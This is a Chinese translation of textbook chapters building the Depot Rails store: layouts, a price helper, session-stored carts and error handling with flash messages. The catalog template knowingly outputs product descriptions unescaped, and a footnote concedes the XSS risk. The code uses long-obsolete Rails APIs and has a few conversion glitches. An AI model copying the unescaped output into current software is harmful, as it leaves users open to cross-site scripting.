在 Rails 中指定和使用布局的方法有很多种。我们现在选择最简单的一种。如果你在`app/views/layouts`目录下创建一个与控制器同名的模板文件，该控制器渲染的所有视图默认都将使用该布局。所以现在让我们创建一个。我们的控制器叫`store`，所以我们将布局命名为`store.rhtml`。

```erb
Download depot_e/app/views/layouts/store.rhtml

Line 1  <html>
      -  <head>
      -    <title>Pragprog Books Online Store</title>
      -    <%= stylesheet_link_tag "depot", :media => "all" %>
    5  </head>
      -  <body id="store">
      -    <div id="banner">
      -      
      -      <%= @page_title || "Pragmatic Bookshelf" %>
   10  </div>
      -  <div id="columns">
      -    <div id="side">
      -      <a href="http://www....">Home</a><br />
      -      <a href="http://www..../faq">Questions</a><br />
      -      <a href="http://www..../news">News</a><br />
      -      <a href="http://www..../contact">Contact</a><br />
      -    </div>
      -    <div id="main">
      -      <%= @content_for_layout %>
   20    </div>
```

```erb
</div>
</body>
</html>
```

除了通常的 HTML 标签外，这个布局有三个 Rails 特有的项目。第 4 行使用了一个 Rails 辅助方法来生成一个指向我们`depot.css`样式表的`<link>`标签。第 9 行我们将页面标题设置为变量`@page_title`中的值。然而，真正的魔法发生在第 19 行。Rails 自动将变量`@content_for_layout`设置为特定于页面的内容——由本次请求调用的视图生成的内容。在我们的例子中，这将是`index.rhtml`生成的目录页面。

为了让这一切正常工作，我们需要向我们的`depot.css`样式表添加内容。它开始变得有点长，所以没有内联显示，我们从第 ?? 页开始显示完整列表。点击刷新，浏览器窗口看起来会像图 7.2。它不会赢得任何设计奖项，但它会向我们的客户大致展示最终页面会是什么样子。

## 7.3 迭代 B3：使用辅助方法格式化价格

我们的目录显示有一个明显的问题。数据库中存储的价格以分为单位，而我们希望以美元和美分显示。1234 的价格应该显示为 $12.34。

一个解决方案是在视图中格式化价格。例如，我们可以这样说：

```erb
<span class="catalogprice"><%= sprintf("%0.2f", product.price/100.0) %></span>
```


这（可能）会工作，但它可能容易受到浮点数同样的舍入问题的影响。它还将数据库中价格格式的知识嵌入到视图中：这对我来说有点过于耦合了。

相反，让我们将价格格式化提取到视图之外的一个 Ruby 方法中。这个方法是我们格式化价格以供显示的唯一位置。我们可以从任何需要该功能的视图中调用它。Rails 称这些方法为“辅助方法”。

如果你查看`app`目录，你会发现四个子目录：

```text
depot> ls -p app
controllers/  helpers/  models/  views/
```

毫不奇怪，我们的辅助方法放在`helpers`目录中。如果你查看那里，你会发现它已经包含了一些文件。

```text
depot> ls -p app/helpers
admin_helper.rb  application_helper.rb  store_helper.rb
```

Rails 生成器自动为每个控制器（`admin`和`store`）创建了一个辅助文件。Rails 命令本身（最初创建应用程序的那个）创建了文件`application_helper.rb`。我们在特定于控制器的辅助方法中定义的方法对该控制器引用的视图可用。在整个`application_helper`文件中的方法在应用程序的所有视图中都可用。这为我们的价格格式化辅助方法提供了一个选择。目前，我们只需要在商店视图中使用它，所以让我们先把它放在那里。

让我们看看`helpers`目录中的`store_helper.rb`文件。

```ruby
module StoreHelper
end
```

它只是一个空的 Ruby 模块，正等着我们添加方法。让我们编写我们的价格格式化器。它接收一个金额（以分为单位），并返回一个包含美元和美分的字符串。它使用 Ruby 库方法`divmod()`，该方法返回将金额除以 100 得到的商和余数（从而避免任何浮点问题）。我们的方法不处理负价格，因为模型中的验证会排除它们。

```ruby
module StoreHelper
  def format_price(amount)
    dollars, cents = amount.divmod(100)
    sprintf("$%d.%02d", dollars, cents)
  end
end
```

在视图中使用我们的辅助方法很简单：在 index 模板中，我们将

`<span class="price"><%= product.price %></span>`

改为

`<span class="price"><%= format_price(product.price) %></span>`

果然，当我们点击刷新时，我们看到了格式美观的价格。

## 7.4 迭代 B4：链接到购物车

我们的客户对我们的进展非常满意。我们仍然处于开发的第一天，我们已经有了一个看起来还不错的目录显示。然而，她指出我们忘记了一个小细节——没有人能在我们的商店购买任何东西。我们忘记了在目录显示中添加任何类型的“添加到购物车”链接。

回到第 48 页，我们使用了`link_to`辅助方法来生成从 Rails 视图回到控制器中另一个操作的链接。我们可以使用相同的辅助方法在目录页面上的每个产品旁边添加一个“添加到购物车”链接。但事实证明这是件危险的事情。问题是`link_to()`辅助方法生成一个 HTML `<a href=...>`标签。当你点击相应的链接时，你的浏览器会向服务器生成一个 HTTP GET 请求。而 HTTP GET 请求不应该改变服务器上任何东西的状态——它们只应用于获取信息。（这不仅仅是一种学术上的讲究。更多背景信息，请参阅从第 397 页开始的讨论。）

---

¹这个决定打开了一个潜在的安全漏洞，但由于产品描述是由我们公司的人创建的，我们觉得风险很小。详情请参见第 514 页第 23.2 节“保护应用程序免受 XSS 攻击”。





**图 7.2：** 添加布局后的目录


幸运的是，Rails 提供了一个`link_to()`的有用替代方案。`button_to()`方法同样将视图链接回应用程序，但它通过生成一个仅包含单个按钮的 HTML 表单来实现这一点。当用户点击该按钮时，会生成一个 HTTP POST 请求。当我们想要执行诸如将商品添加到购物车等操作时，POST 请求正是我们所需要的。

让我们将“添加到购物车”按钮添加到我们的目录页面。其语法与我们为`link_to()`所使用的相同。

```erb
<%= button_to "Add to Cart", :action => :add_to_cart %>
```

然而，这里存在一个问题：`add_to_cart`动作将如何知道要将哪个产品添加到我们的购物车中？我们需要将按钮对应商品的 id 传递给它。这很容易——我们只需在`button_to()`调用中添加一个`:id`选项即可。我们的`index.rhtml`模板现在看起来像这样。

```text
Download depot_f/app/views/store/index.rhtml

<h1>Your Pragmatic Catalog</h1>

<% for product in @products -%>
  <div class="entry">
    "/>
    <h3><%= h(product.title) %></h3>
    <%= product.description %>
    <span class="price"><%= format_price(product.price) %></span>
    <%= button_to "Add to Cart", :action => :add_to_cart, :id => product %>
  </div>
<% end %>
```

现在我们的首页看起来就像下一页的图 7.3 所示。

### 我们刚刚做了什么

我们构建了商店目录显示的基础。步骤如下：

- 创建一个新的控制器来处理以客户为中心的交互。
- 实现默认的`index()`动作。
- 在 Product 模型中添加一个类方法，以返回可售商品。
- 实现一个视图（一个`.rhtml`文件）和一个包含它的布局（另一个`.rhtml`文件）。

> 你不能总是用`button_to()`替代`link_to()`。因为`button_to()`使用 HTML 表单，所以它不能像`link_to()`那样内联使用，因此你可能需要稍微重新设计你的页面，以使它们正确布局。



图 7.3：现在有了一个“添加到购物车”按钮。

- 创建一个简单的样式表。
- 编写一个辅助方法，按照我们想要的方式格式化价格。
- 为每个商品添加一个按钮，允许人们将其添加到我们的购物车。

是时候签入所有代码，继续下一项任务了。

在本章中，我们将看到：

- 会话和会话管理
- 非数据库模型
- 错误诊断和处理
- flash 消息
- 日志记录

## 第 8 章

## 任务 C：购物车创建

既然我们已经能够展示包含我们所有精彩产品的目录，那么能够销售它们就更好了。我们的客户同意了，因此我们共同决定接下来实现购物车功能。这将涉及许多新概念，包括会话、错误处理和 flash 消息，所以让我们开始吧。

### 8.1 会话

在我们启动下一个大获成功的迭代之前，我们需要花一点时间来看看会话、Web 应用程序和 Rails。

当用户浏览我们的在线目录时，他或她将（我们希望）选择要购买的产品。惯例是将每个选定的商品添加到一个虚拟购物车中，并在我们的商店中保存。在某个时候，我们的买家会拥有他们需要的所有东西，然后进入我们网站的结账页面，在那里他们将为购物车中的商品付款。

这意味着我们的应用程序需要跟踪买家添加到购物车中的所有商品。这听起来很简单，除了一个微小的细节。用于浏览器和应用程序之间通信的协议是无状态的——它没有内置记忆。每次你的应用程序从浏览器收到一个请求，都像是它们第一次交谈。这对浪漫主义者来说很酷，但当你试图记住用户已经选择了哪些产品时，情况就不那么妙了。

解决这个问题的最流行方法是在无状态的 HTTP 之上模拟有状态事务的概念。应用程序中的一层尝试将传入的请求与本地保存的一段会话数据进行匹配。如果某段特定的会话数据可以与来自特定浏览器的所有请求匹配，我们就可以使用该会话数据来跟踪该浏览器用户执行的所有操作。

执行此会话跟踪的底层机制各不相同。有时，应用程序在每一页的表单数据中编码会话信息。有时，编码的会话标识符被添加到每个 URL 的末尾（即所谓的 URL 重写选项）。有时，应用程序使用 cookie。Rails 使用基于 cookie 的方法。

`cookie`只是一块命名的数据，Web 应用程序将其传递给 Web 浏览器，浏览器会记住它。随后，当浏览器向应用程序发送请求时，cookie 数据会随附发送。应用程序使用 cookie 中的信息将请求与存储在服务器中的会话信息进行匹配。对于一个混乱的问题，这是一个不优雅的解决方案。幸运的是，作为 Rails 程序员，你不必担心所有这些底层细节。（事实上，唯一需要深入讨论这些的原因是解释为什么 Rails 应用程序的用户必须在其浏览器中启用 cookie。）

Rails 提供了一个简单的抽象，而不是让开发人员担心协议和 cookie。在控制器内部，Rails 维护一个名为`session`的特殊类哈希集合。你在处理请求期间存储到此哈希中的任何键/值对，在同一浏览器的后续请求中都将可用。

在 Depot 应用程序中，我们希望使用会话功能来存储有关每个买家购物车中物品的信息。但在这里我们必须稍微小心一点——问题比表面看起来更深层次。这里涉及到弹性和可扩展性问题。

默认情况下，Rails 将会话信息存储在服务器上的文件中。如果你只运行一个 Rails 服务器，这没有问题。但想象一下，你的商店应用程序变得如此受欢迎，以至于单台服务器机器容量不足，需要运行多台服务器。来自特定用户的第一请求可能会路由到一台后端机器，但第二个请求可能会转到另一台。存储在第一台服务器上的会话数据在第二台上不可用；当商品在跨请求的购物车中出现和消失时，用户会感到非常困惑。

因此，一个好主意是确保将会话信息存储在应用程序外部的某个位置，以便在需要时可以在多个应用程序进程之间共享。而且，如果这个外部存储是持久化的，我们甚至可以重启服务器而不会丢失任何会话信息。我们将在第`24`章《部署与生产》（第 524 页）中详细讨论设置会话信息，我们将看到有许多不同的会话存储选项。现在，让我们安排我们的应用程序将会话数据存储在数据库的表中。

### 将会话存入数据库

Rails 使得将会话数据存储在数据库中变得很容易。首先，我们需要创建一个具有正确布局的数据库表。我们需要运行几个 rake 任务来完成此操作。首先，我们将创建一个包含会话表定义的迁移。有一个预定义的 Rake 任务可以创建我们需要的迁移。

```text
depot> rake db:sessions:create
exists   db/migrate
create   db/migrate/004_add_sessions.rb
```

然后，我们将应用该迁移以将表添加到我们的模式中。

```text
depot> rake db:migrate
```

如果你现在查看你的数据库，你会找到一个名为`sessions`的新表。

接下来，我们必须告诉 Rails 为我们的应用程序使用数据库存储（因为默认是使用文件系统）。这是一个配置选项，因此不用惊讶，你会发现它在`config`目录中的一个文件中指定。打开`environment.rb`文件，你会看到一堆被注释掉的配置选项。向下查找看起来像这样的选项：

```ruby
# Use the database for sessions instead of the file system
# (create the session table with 'rake db:sessions:create')
# config.action_controller.session_store = :active_record_store
```

注意最后一行是被注释掉的。删除该行开头的`#`字符以激活数据库存储会话。

```ruby
# Use the database for sessions instead of the file system
# (create the session table with 'rake db:sessions:create')
config.action_controller.session_store = :active_record_store
```

下次你重启应用程序时，它将会将会话数据存储在数据库中。

### 购物车与会话

那么，刚刚钻研完所有这些理论，我们在实践中处于什么位置呢？我们需要能够在第一次需要购物车对象时将其分配给一个会话，并在需要时在同一个会话中再次找到该购物车对象。我们可以通过在 store 控制器中创建一个辅助方法`find_cart()`来实现这一点。一个简单的实现方式是：

```ruby
def find_cart
  unless session[:cart]          # 如果会话中没有购物车
    session[:cart] = Cart.new     # 添加一个新的
  end
  session[:cart]                  # 返回现有的或新的购物车
end
```

请记住，Ruby 使得当前会话对控制器来说像一个哈希表，所以我们将通过使用符号`:cart`作为索引把购物车存储在会话中。我们目前还不知道我们的购物车具体是什么——现在让我们假设它是一个类，这样我们就可以使用`Cart.new`创建一个新的购物车对象。掌握了所有这些知识，我们现在就可以着手在用户的会话中保存一个购物车了。

事实证明，Ruby 中有一种更地道的方法来完成同样的事情。

```ruby
### 下载 depot_f/app/controllers/store_controller.rb

private

def find_cart
  session[:cart] ||= Cart.new
end
```

这个方法相当巧妙。它使用了 Ruby 的条件赋值运算符`||=`。如果会话哈希表中已经有对应键`:cart`的值，该值会被立即返回。否则，将创建一个新的购物车对象并赋值给会话。然后返回这个新的购物车。

请注意，我们将`find_cart()`方法设为了私有方法。这可以防止 Rails 将其作为控制器的一个 action（操作）暴露出来。在我们后续处理购物车时，向这个控制器添加额外方法请务必小心——如果你把它们添加在`private`声明之后，它们将在类外部不可见。新的 action 必须添加在`private`行之前。

## 8.2 迭代 C1：创建购物车

我们讨论会话的全部原因，是为了给购物车找一个存放的地方。那么，现在会话的事情已经理清，让我们继续实现购物车。目前，我们让它保持简单。它用于存放数据，并包含一些业务逻辑，所以我们知道它在逻辑上是一个模型。但是，我们需要一个购物车的数据库表吗？不一定。购物车与买家的会话绑定，只要会话数据在我们最终部署到多服务器环境时能在所有服务器间共享，那可能就足够好了。所以目前我们假设购物车是一个普通类，看看会发生什么。我们将使用编辑器在`app/models`目录中创建文件`cart.rb`。实现非常简单。购物车本质上是一个商品项目的数组包装器。当添加一个产品（使用`add_product()`方法）时，它会被追加到项目列表中。

```ruby
class Cart
  attr_reader :items

  def initialize
    @items = []
  end

  def add_product(product)
    @items << product
  end
end
```

细心的读者（是的，就是你们所有人）会注意到，我们的商品目录列表视图已经为每个产品包含了一个“添加到购物车”按钮。

```erb
<%= button_to "Add to Cart", :action => :add_to_cart, :id => product %>
```

这个按钮链接回商店控制器中的一个`add_to_cart()` action（我们还没有编写那个 action）。它将通过表单参数传入产品 ID。这就是我们开始看到`id`字段在我们模型中如此重要的地方。Rails 通过`id`字段来标识模型对象（以及相应的数据库行）。如果我们向`add_to_cart()`传递一个`id`，我们就是在唯一标识要添加的产品。

现在让我们来实现`add_to_cart()`方法。它需要为当前会话找到购物车（如果还没有就创建一个），将选中的产品添加到该购物车，并显示购物车内容。所以，与其过分担心细节，不如让我们在这个抽象级别上编写代码。这是`app/controllers/store_controller.rb`中的`add_to_cart()`方法。

```ruby
def add_to_cart
  @cart = find_cart
  @product = Product.find(params[:id])
  @cart.add_product(@product)
end
```

在第 2 行，我们使用了在第 100 页实现的`find_cart()`方法来在会话中查找（或创建）一个购物车。下一行使用`params`对象从请求中获取`id`参数，然后调用`Product`模型来查找具有该`id`的产品。第 4 行然后将此产品添加到购物车。


将 `add_to_cart()` 方法添加到控制器时请小心。因为它被调用为一个 action，所以它必须是公共的，因此必须添加在我们为隐藏 `find_cart()` 方法而设置的 `private` 指令之前。

当我们回到浏览器并点击其中一个“添加到购物车”按钮时会发生什么？让我们试试。



Rails 在执行完 `add_to_cart` action 后会做什么？它会去 `app/views/store` 目录中查找名为 `add_to_cart` 的模板。我们还没写一个，所以 Rails 抱错了。让我们写一个简单的模板（我们稍后会美化它）来让这件事成立。

```erb
### 下载 depot_f/app/views/store/add_to_cart.rhtml

<h1>您的实用购物车</h1>

<ul>
  <% for item in @cart.items %>
    <li><%= item.title %></li>
  <% end %>
</ul>
```

那么，一切都连接好了，让我们点击浏览器中的刷新。您的浏览器可能会警告您即将再次提交表单数据（因为我们使用了 `button_to()` 将产品添加到购物车，而它使用的是表单）。点击确定，您应该会看到我们简单的视图显示出来：



购物车中有两个产品，因为我们提交了两次表单（一次是最初提交并得到缺少视图的错误时，另一次是在实现视图后重新加载该页面时）。

回到 `http://localhost:3000/store`，主目录页面，并将另一个不同的产品添加到购物车。您会看到您购物车中原来的两个条目加上了我们的新项目。看来会话已经起作用了。是时候向我们的客户展示了，所以我们叫她过来，自豪地展示我们漂亮的新购物车。让我们有些沮丧的是，她发出了那种 *啧啧* 声，那是客户在告诉你你显然没搞懂什么之前会发出的声音。

她解释说，真正的购物车不会为两件相同的产品显示单独的行。相反，它会显示产品行一次，数量为二。看来我们为下一轮迭代做好了准备。

## 8.3 迭代 C2：更智能的购物车

看来我们必须找到一种方法将数量与购物车中的每个产品关联起来。让我们创建一个新的类 `CartItem`，它包含对一个产品的引用和一个数量。

```ruby
class CartItem

  attr_reader :product, :quantity

  def initialize(product)
    @product = product
    @quantity = 1
  end

  def increment_quantity
    @quantity += 1
  end

  def title
    @product.title
  end

  def price
    @product.price * @quantity
  end
end
```

我们现在将在 `Cart` 的 `add_product()` 方法内部使用它。我们检查我们的项目列表是否已经包含我们正在添加的产品；如果是，我们就增加数量，否则我们添加一个新的 `CartItem`。

```ruby
### 下载 depot_g/app/models/cart.rb
def add_product(product)
  existing_product = @items.find {|item| item.product == product}
  if existing_product
    existing_product.increment_quantity
  else
    @items << CartItem.new(product)
  end
end
```

我们还将对 `add_to_cart` 视图进行快速修改，以使用这个新信息。

```erb
### 下载 depot_g/app/views/store/add_to_cart.rhtml
<h1>您的实用购物车</h1>
<ul>
  <% for cart_item in @cart.items %>
    <li><%= cart_item.quantity %> &times; <%= h(cart_item.title) %></li>
  <% end %>
</ul>
```

到现在为止，我们对自己的 Rails 功夫相当有信心了，所以我们自信地去到商店页面，为一个产品点击添加购物车按钮。当然，没有什么比一点点傲慢更能触发现实的检验了。我们没有看到新的购物车，反而面对着一个相当残酷的错误屏幕，如图 8.1 所示，在下一页。

起初，我们可能忍不住认为是我们拼错了 `cart_item.rb` 中的 `quantity()` 属性，但快速检查显示它是正确的。但是，然后，我们更仔细地看错误信息。它说“undefined method 'quantity' for #<Product:...>。”这意味着它认为购物车中的项目是

## 8.4 迭代 C3：处理错误

这看起来就像 Rails 根本没有发现我们对文件所做的修改。事实上，情况正是如此。

到目前为止，我们一直很享受 Rails 在开发模式下处理每个新请求之前会自动重新加载程序文件这一特性。然而，事情并非完全如此。实际上，Rails 只会重新加载*它知道的*文件。如果我们的某个文件是标准 Rails 类的子类，那么 Rails 就知道它的存在，并会相应地进行管理。但是，我们的 `Cart` 类只是一个独立的 Ruby 类，Rails 并不知道需要重新加载它。不过，这并非无计可施，因为我们可以通过在每个模型中包含一条 `include` 指令来告诉 Rails 重新加载我们的模型。

```ruby
class Cart
  include Reloadable

  # .. 模型其余部分
end

class CartItem
  include Reloadable

  # .. 模型其余部分
end
```

包含 `Reloadable` 意味着“将 Cart 和 CartItem 类视同任何其他 Rails 模型，并在每个请求之前重新加载它们。”然而，由于当前运行在应用程序中的源代码并没有这条指令，我们将不得不咬紧牙关，第一次停下来并重启应用程序，以使 Cart 和 CartItem 的新版本得以加载。今后，我们会记得在非数据库模型中添加 `include Reloadable` 这行代码，这样就不必再重启了。

一旦我们重启了应用程序，我们大胆地再次在浏览器中点击刷新，希望却再次被不同的异常击碎，图 8.2 令人沮丧地展示了这一点。

它抱怨说，我们在 `add_to_cart()` 方法中试图在一个 Product 类的对象上调用名为 `product()` 的方法。但是，查看源代码，我们唯一引用 `product()` 方法的地方，是在一个 CartItem 对象上调用它。那么，为什么它认为 `@items` 数组包含的是 product，而我们的代码明明是向其中填充了 cart_item？

要回答这个问题，我们必须问一下我们正在往里添加商品的购物车来自哪里。没错，它在 session 中。而 session 中的购物车是旧版本的，那个我们只是盲目地将 product 追加到 `@items` 数组的版本。因此，当 Rails 从 session 中取出购物车时，它得到的是一个装满 product 对象的购物车，而不是 cart_item。这就是我们的问题所在。

确认这一点的最简单方法是删除旧的 session，抹去原始购物车实现的所有痕迹。由于我们使用的是基于数据库的 session，我们可以使用一个方便的 rake 任务来清空 session 表。

```bash
depot> rake db:sessions:clear
```

现在点击刷新，你会看到应用程序正在运行新的购物车和新的 `add_to_cart` 视图。

### 故事的启示

事实证明，我们对 `Cart` 类的简单修改实际上导致了两个不同的问题。

首先，购物车和购物车商品类没有被重新加载：因为这些类不是 Rails 类的子类，Rails 没有自动重新加载它们。我们通过在每个类中添加 `include Reloadable` 修复了这一点。

其次，session 数据包含了旧版本的购物车对象，这与我们的新源文件不兼容。我们通过清空旧的 session 数据修复了这一点。

在这两个问题中，第一个只是纪律问题。每当你创建一个非数据库模型时，都需要在源文件中包含一条 `include Reloadable` 指令。然而，第二个问题更为棘手。它之所以发生，是因为我们将完整的对象存储在 session 数据中。每当我们更改应用程序源代码时，就可能与这些数据不兼容，这可能导致运行时错误。这不仅仅是开发期间的问题。

假设我们已经部署了 Depot 应用程序的第一版，使用的是旧版本的购物车。我们有成千上万的客户正在忙碌地购物。然后我们决定部署新的、改进的购物车模型。代码投入生产，突然所有正在购物中的客户在向购物车添加商品时发现会出错。我们唯一的解决办法是删除 session 数据，但这会丢失客户的购物车。

这告诉我们，将应用程序级别的对象存储在 session 数据中通常是一个非常糟糕的主意。应用程序的任何更改都可能要求我们在下次更新生产环境应用程序时丢失现有的 session。

相反，推荐的做法是只在 session 中存储简单的东西：字符串、数字等等。将你的应用程序对象保存在数据库中，然后从 session 数据中使用它们的主键来引用它们。如果我们正在将 Depot 应用程序投入生产，明智的做法是使 `Cart` 类成为一个 ActiveRecord 对象，并将购物车数据存储在数据库中。³ 那么 session 将存储购物车对象的 id。当一个请求进来时，我们从 session 中提取这个 id，然后从数据库中加载购物车。⁴ 尽管这不会在更新应用程序时自动捕获所有问题，但它给了你一个应对迁移问题的机会。

总之，我们现在有一个购物车，它维护着所包含的每种产品的数量，还有一个显示该数量的视图。图 8.3 展示了它的样子。

我们对有东西可以展示感到满意，于是把我们的客户叫过来，给她看了我们一上午的工作成果。她很高兴——她可以看到网站开始成形了。然而，她也感到困扰，因为她刚刚在行业媒体上读到一篇关于电子商务网站每天遭受攻击和破坏的文章。她了解到一种攻击方式是向 Web 应用程序发送带有错误参数的请求，希望能暴露出 bug 和安全漏洞。她注意到添加商品到我们购物车的链接看起来像 `store/add_to_cart/nnn`，其中 `nnn` 是我们的内部产品 id。她感到有些恶意，于是在浏览器中手动输入这个请求，并给了一个 "wibble" 作为产品 id。当我们的应用程序显示图 8.4 的页面时，她并没有留下深刻印象。这暴露了太多关于我们应用程序的信息，看起来也相当不专业。所以看来我们的下一个迭代将花时间使应用程序更具韧性。

查看图 8.4 显示的页面，很明显我们的应用程序在 store 控制器的第 16 行抛出了一个异常。⁵ 结果发现这一行是：

```ruby
product = Product.find(params[:id])
```

如果找不到该产品，Active Record 会抛出一个 `RecordNotFound` 异常，我们显然需要处理它。问题随之而来——如何处理？

我们可以简单地忽略它。从安全的角度来看，这可能是最好的做法，因为它不会给潜在的攻击者提供任何信息。然而，这也意味着如果我们代码中有 bug 生成了错误的产品 id，我们的应用程序对外界来说将是无响应的——没人会知道发生了错误。

相反，当抛出异常时，我们将采取三个行动。首先，我们将使用 Rails 的日志记录器（在第 237 页描述）将事实记录到一个内部日志文件中。其次，我们将向用户输出一条简短的消息（类似“无效产品”）。第三，我们将重新显示目录页面，以便他们可以继续使用我们的网站。

### Flash！

正如你可能猜到的，Rails 有一种方便的方式来处理错误和错误报告。它定义了一个称为 `flash` 的结构。Flash 是一个存储桶（实际上更接近一个 `Hash`），你可以在处理请求时在其中存储东西。Flash 的内容在此会话的下一个请求中可用，然后自动删除。通常 flash 用于收集错误消息。例如，当我们的 `add_to_cart()` 检测到传入了无效的产品 id 时，它可以将该错误消息存储在 flash 区域中，并重定向到 `index()` 操作以重新显示目录。索引操作的视图可以提取错误并在目录页面顶部显示。通过使用 `flash` 访问器方法，可以在视图中访问 flash 信息。

为什么我们不能简单地将错误存储在任何旧的实例变量中？请记住，重定向是由我们的应用程序发送给浏览器的，然后浏览器会发送一个新的请求回到我们的应用程序。等到我们收到该请求时，我们的应用程序已经继续运行——先前请求的所有实例变量早已消失。Flash 数据存储在 session 中，以便在请求之间保持可用。

掌握了所有这些关于 flash 数据的背景知识后，我们现在可以更改 `add_to_cart()` 方法，以拦截错误的产品 id 并报告问题。

```ruby
### depot_h/app/controllers/store_controller.rb
def add_to_cart
  begin
    @product = Product.find(params[:id])
  rescue
    logger.error("Attempt to access invalid product #{params[:id]}")
    flash[:notice] = "Invalid product"
    redirect_to :action => :index
  else
    @cart = find_cart
    # ... 方法其余部分
  end
end
```

---

³ 但在这个演示应用程序中我们不会这样做，因为我们想展示这些问题。

⁴ 实际上，我们可以将此功能抽象成称为过滤器（filter）的东西，并让它自动发生。我们将在第 384 页介绍过滤器。

⁵ 你的行号可能不同。我们的源文件中有一些与书籍相关的格式内容。

### 迭代 C3：错误处理

```ruby
@cart.add_product(@product)
end
end
```

`rescue` 子句拦截了由 `Product.find()` 抛出的异常。在处理器中，我们：

- 使用 Rails 日志记录器记录错误。每个控制器都有一个 `logger` 属性。这里我们用它来记录一条错误级别的日志消息。
- 创建一个包含解释说明的 flash 消息。就像使用会话一样，你可以像访问哈希一样访问 flash。这里我们使用键 `:notice` 来存储我们的消息。
- 使用 `redirect_to()` 方法重定向回商品目录显示页面。该方法接受多种参数（类似于我们在模板中遇到的 `link_to()` 方法）。在这种情况下，它指示浏览器立即请求将调用当前控制器 `index` 动作的 URL。为什么要重定向，而不是直接在这里显示商品目录？如果重定向，用户的浏览器最终显示的 URL 将是 `http://.../store/index`，而不是 `http://.../store/add_to_cart/wibble`。这样我们暴露的应用程序信息更少。我们还防止了用户通过点击刷新按钮重新触发错误。

这段代码使用了 Ruby 异常处理中一个鲜为人知的功能。`else` 子句仅在未抛出异常时才调用后续代码。它允许我们为异常发生时指定一条路径，为未发生时指定另一条路径。

有了这段代码，我们可以重新运行客户之前遇到问题的查询。这次，当我们显式输入

```text
http://localhost:3000/store/add_to_cart/wibble
```

时，我们在浏览器中看到的不再是大量的错误。取而代之的是显示了商品目录页面。如果我们查看日志文件（日志目录中的 `development.log`），我们会看到我们的消息。⁶

```text
Parameters: {"action"=>"add_to_cart", "id"=>"wibble", "controller"=>"store"}
Product Load (0.000427) SELECT * FROM products WHERE (products.id = 'wibble') LIMIT 1
```

> ⁶在 Unix 机器上，我们可能会使用像 `tail` 或 `less` 这样的命令来查看此文件。在 Windows 上，你可以使用你喜欢的编辑器。通常保持一个窗口打开，显示新添加到此文件的行是个好主意。在 Unix 中你会使用 `tail -f`。你可以从 [http://unixutils.sourceforge.net/](http://unixutils.sourceforge.net/) 下载一个适用于 Windows 的 `tail` 命令，或者从 [http://tailforwin32.sourceforge.net/](http://tailforwin32.sourceforge.net/) 获取一个基于 GUI 的工具。最后，一些 OS X 用户发现控制台应用程序（在 应用程序>实用工具 中）是跟踪日志文件的便捷方式。使用 `open` 命令，并传入日志文件的名称。

```text
Attempt to access invalid product wibble
Redirected to http://localhost:3000/store/index
Completed in 0.00522 (191 reqs/sec) . . .
```

```text
Processing StoreController#index ...
:
:
Rendering within layouts/store
Rendering store/index
```


